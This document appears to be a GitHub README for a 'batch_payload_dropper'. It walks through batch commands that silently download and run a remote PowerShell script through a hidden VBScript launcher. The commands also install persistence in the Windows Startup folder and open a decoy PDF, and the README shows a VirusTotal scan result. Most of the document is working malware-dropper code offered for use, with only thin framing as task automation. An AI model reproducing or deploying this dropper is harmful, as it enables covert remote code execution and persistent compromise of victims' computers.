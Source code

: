 # batch_payload_dropper

This batch script, is designed to automate certain tasks during system startup by utilizing the Windows Startup mechanism. It involves downloading a PowerShell script and a PDF document from specified URLs and silently executing the PowerShell script upon system startup.

## Here's a breakdown of the script:

1. **Downloading and Execution Steps:**
   - Change directory to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Create a VBScript file (`run.vbs`) to run the PowerShell script (`script.ps1`) silently:
     ```batch
     echo command = "powershell.exe -nologo -ExecutionPolicy Unrestricted -File %temp%\script.ps1" >run.vbs
     echo set shell = CreateObject("WScript.Shell") >>run.vbs
     echo shell.Run command,0 >>run.vbs
     ```

   - Download the PowerShell script (`script.ps1`) from your desired URL using PowerShell:
     ```batch
     powershell.exe -WindowStyle hidden wget <your_script_url> -OutFile %TEMP%\script.ps1
     ```

   - Download other necessary files similarly, e.g., a PDF document:
     ```batch
     powershell.exe -WindowStyle hidden wget <your_pdf_url> -OutFile %TEMP%\document.pdf
     ```

2. **Setting up Autorun:**
   - Change directory to the user's Startup folder:
     ```batch
     cd "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"
     ```

   - Create a batch file (`autorun.bat`) to run the VBScript (`run.vbs`) on startup:
     ```batch
     echo wscript %USERPROFILE%\AppData\Local\Temp\run.vbs > autorun.bat
     ```

   - Start the `autorun.bat` script in the background using `start` command:
     ```batch
     start /B autorun.bat
     ```

3. **Open the PDF Document:**
   - Change directory back to the user's temporary folder:
     ```batch
     cd "%USERPROFILE%\AppData\Local\Temp\"
     ```

   - Open the PDF document (`Readme.pdf`) in the default PDF reader:
     ```batch
     start /max Readme.pdf
     ```

## Customization

- You can customize the URLs to download the PowerShell script and other files by replacing `<your_script_url>` and `<your_pdf_url>` with your desired URLs.


## Virus Total Result
![Virus Total](https://user-images.githubusercontent.com/145866956/270125270-b3838842-72fd-4526-a64c-f92758be3578.png)
